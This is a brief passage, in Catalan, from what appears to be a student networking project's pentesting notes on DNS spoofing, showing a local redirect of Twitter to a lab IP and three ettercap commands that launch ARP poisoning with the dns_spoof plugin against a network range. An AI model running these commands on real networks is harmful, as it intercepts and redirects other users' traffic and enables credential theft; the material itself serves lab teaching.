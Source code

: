 ```
# Host local

Connectar-se a Twitter - Farà la redirecció a 10.200.243.137


```

![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/DNSSpoof.png?raw=true)



## __Ettercap per CLI__

- https://esgeeks.com/tutorial-ettercap-ejemplos/

Utilitza la següent ordre per llançar una suplantació de DNS:

sudo ettercap -T -q -P dns_spoof -i wlan0 -M arp /// ///

#Un altre comandament, per a tota la xarxa
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof -p //192.168.1.1/

#Per a un rang de xarxa
sudo ettercap -T -q -M arp -i wlan0 -P dns_spoof //192.168.1.1/ 192.168.1.51/

# __Explicació resumida:__

ARP Spoof - DNS Cache Poisoning
